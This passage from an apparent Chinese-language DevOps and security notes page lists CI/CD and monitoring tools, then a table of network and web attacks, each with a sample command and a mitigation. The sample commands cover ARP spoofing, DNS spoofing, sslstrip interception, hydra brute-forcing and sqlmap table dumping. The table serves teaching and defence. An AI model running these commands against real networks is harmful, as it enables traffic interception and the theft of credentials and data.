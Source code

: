      + [Spinnaker](https://spinnaker.io/)
     + [GoCD](https://www.gocd.org/)
     + [Argo CD](https://argo-cd.readthedocs.io/)
     + [Concourse](https://concourse-ci.org/)
     + [Screwdriver](https://screwdriver.cd/)
   + 监控告警
     + [ELK Stack](https://www.elastic.co/cn/elastic-stack/)
     + [Zabbix](https://www.zabbix.com/)
     + [Prometheus](https://prometheus.io/)
     + [Grafana](https://grafana.com/)
   + 远程桌面
     + [Guacamole](https://guacamole.apache.org/) 是一个无客户端的远程桌面网关，它支持RDP、VNC、SSH协议


6. 安全

   |               | 协议      | 工具         | 示例                                                                                                                                                                           | 解决办法                     | 备注                               |
   |:--------------|:--------|:-----------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:-------------------------|:---------------------------------|
   | 端口扫描          | ICMP    | nmap       | nmap -v -sn 192.168.1.0/24                                                                                                                                                   | 禁止Ping                   | 局域网                              |
   | ping of death | ICMP    | ping       | ping -t -l 65500 1.2.3.4                                                                                                                                                     | 禁止Ping                   | DoS，报文服务端重组导致缓冲区溢出               |
   | Smurf         | ICMP    | -          | -                                                                                                                                                                            | 过滤广播地址，启用反向路经过滤          | DDoS，伪造源IP地址为目标网络的广播地址           |
   | 断网攻击          | ARP     | arpspoof   | arpspoof -i eth0 -t 192.168.1.3 192.168.1.1                                                                                                                                  | 绑定MAC与IP关系               | 局域网                              |
   | ARP欺骗         | ARP     | arpspoof   | echo 1 > /proc/sys/net/ipv4/ip_forward; arpspoof -i eth0 -t 192.168.1.3 -r 192.168.1.1                                                                                       | 绑定MAC与IP关系               | 局域网                              |
   | DNS劫持         | DNS     | dnsspoof   | echo 1 > /proc/sys/net/ipv4/ip_forward; arpspoof -i eth0 -t 192.168.1.3 -r 192.168.1.1; dnsspoof -i eth0 -f hosts.txt                                                        | DNSSEC/HTTPS-DNS，使用Hosts | 局域网，基于ARP欺骗，伪造DNS应答              |
   | DNS劫持         | DNS     | -          | -                                                                                                                                                                            | 使用可信DNS服务器               | 中间人攻击                            |
   | SYN-Flood     | TCP     | -          | -                                                                                                                                                                            | SYN-PROXY                | DoS，代理通过Syncookie，避免客户端直连消耗服务端资源 |
   | LandAttack    | TCP     | -          | -                                                                                                                                                                            |                          | DoS，服务器向自己发送SYN-ACK              |
   | UDP-Flood     | UDP     | -          | -                                                                                                                                                                            | 限流，指纹过滤                  | DDoS，源IP改为攻击目标IP                 |
   | teardrop      | UDP     | -          | -                                                                                                                                                                            | 防火墙，系统升级                 | 后继UDP包offset小于上一个UDP包长度          |
   | HTTP嗅探        | HTTP    | urlsnarf   | echo 1 > /proc/sys/net/ipv4/ip_forward; arpspoof -i eth0 -t 192.168.1.3 -r 192.168.1.1; urlsnarf -i eth0                                                                     | HTTPS                    | 局域网，基于ARP欺骗                      |
   | 窃听            | HTTPS   | sslstrip   | echo 1 > /proc/sys/net/ipv4/ip_forward; arpspoof -i eth0 -t 1.1.1.3 -r 1.1.1.1; iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080; sslstrip | HSTS                     | 局域网，基于ARP欺骗和HTTPS降级              |
   | HTTP劫持        | HTTP    | -          | mitmproxy -p 7890                                                                                                                                                            | HTTPS                    | 运营商在HTTPS全面推开前往ISP页面插入广告         |
   | 暴力破解          | -       | hydra      | hydra -L users.txt -P passwords.txt ftp://192.168.0.1                                                                                                                        | 复杂密码，账号锁定                |                                  |
   | XSS           | HTTP(S) | -          | https://owasp.org/www-community/attacks/xss/                                                                                                                                 | 特殊字符转义，WAF               | 浏览器执行脚本导致                        |
   | SQL注入         | SQL     | sqlmap     | export T="http://site"; sqlmap -u "${T}/q=1" --tables; sqlmap -u "${T}" --cookie "q=1" --level 2 --columns -T "table"; sqlmap -u "${T}/q=1" --dump -C "columns" -T "table"   | 预编译SQL，WAF               |                                  |